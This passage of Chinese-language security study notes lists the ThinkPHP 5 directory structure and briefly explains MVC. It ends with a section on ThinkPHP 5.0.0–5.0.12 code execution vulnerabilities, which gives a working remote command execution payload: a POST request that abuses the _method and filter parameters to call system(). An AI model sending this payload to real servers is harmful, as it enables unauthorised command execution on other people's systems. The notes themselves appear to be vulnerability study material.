 > │  ├─common.php         应用公共（函数）文件
> │  ├─config.php         应用（公共）配置文件
> │  ├─database.php       数据库配置文件
> │  ├─tags.php           应用行为扩展定义文件
> │  └─route.php          路由配置文件
> ├─extend                扩展类库目录（可定义）
> ├─public                WEB 部署目录（对外访问目录）
> │  ├─static             静态资源存放目录(css,js,image)
> │  ├─index.php          应用入口文件
> │  ├─router.php         快速测试文件
> │  └─.htaccess          用于 apache 的重写
> ├─runtime               应用的运行时目录（可写，可设置）
> ├─vendor                第三方类库目录（Composer）
> ├─thinkphp              框架系统目录
> │  ├─lang               语言包目录
> │  ├─library            框架核心类库目录
> │  │  ├─think           Think 类库包目录
> │  │  └─traits          系统 Traits 目录
> │  ├─tpl                系统模板目录
> │  ├─.htaccess          用于 apache 的重写
> │  ├─.travis.yml        CI 定义文件
> │  ├─base.php           基础定义文件
> │  ├─composer.json      composer 定义文件
> │  ├─console.php        控制台入口文件
> │  ├─convention.php     惯例配置文件
> │  ├─helper.php         助手函数文件（可选）
> │  ├─LICENSE.txt        授权说明文件
> │  ├─phpunit.xml        单元测试配置文件
> │  ├─README.md          README 文件
> │  └─start.php          框架引导文件
> ├─build.php             自动生成定义文件（参考）
> ├─composer.json         composer 定义文件
> ├─LICENSE.txt           授权说明文件
> ├─README.md             README 文件
> ├─think                 命令行入口文件
> ```

ThinkPHP架构
- https://blog.csdn.net/qq_28137309/article/details/87352796
### 四、MVC架构
MVC是一个设计模式，它强制性的使应用程序的输入、处理和输出分开。使用MVC应用程序被分成三个核心部件：模型（M）、视图（V）、控制器（C），它们各自处理自己的任务。
## 01-ThinkPHP与代码执行漏洞
### 一、5.0.0-5.0.12
**影响版本：**5.0.0-5.0.12
**payload：**

```
POST /5012/public/index.php
_method=__construct&method=*&filter[]=system&s=dir
```
